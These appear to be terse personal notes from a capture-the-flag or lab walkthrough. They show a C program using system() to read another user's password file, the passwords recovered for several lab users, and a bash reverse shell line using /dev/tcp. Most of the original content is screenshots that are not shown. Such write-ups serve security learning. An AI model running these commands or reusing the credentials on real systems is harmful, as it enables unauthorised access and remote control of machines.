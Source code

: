 ![[Pasted image 20240203190215.png]]
The cod:
```
#include <stdio.h> 
#include <stdlib.h> 
int main() {
	// Execută comanda 'ls' (afisează conținutul   directorului) 
	system("cat /home/user2/password.txt"); 
	return 0;
}
```

password: `octoberiscoming`
![[Pasted image 20240203191206.png]]
```ruby
User2:
octoberiscoming

User3:
braceyourselvesforthewinter

User4:
thisisnotagotreference

User5:
crons_everywhere
```
![[Pasted image 20240213195713.png]]
![[Pasted image 20240213195935.png]]
![[Pasted image 20240213201035.png]]
```bash
sh -i >& /dev/tcp/<IP>/<PORT> 0>&1
```
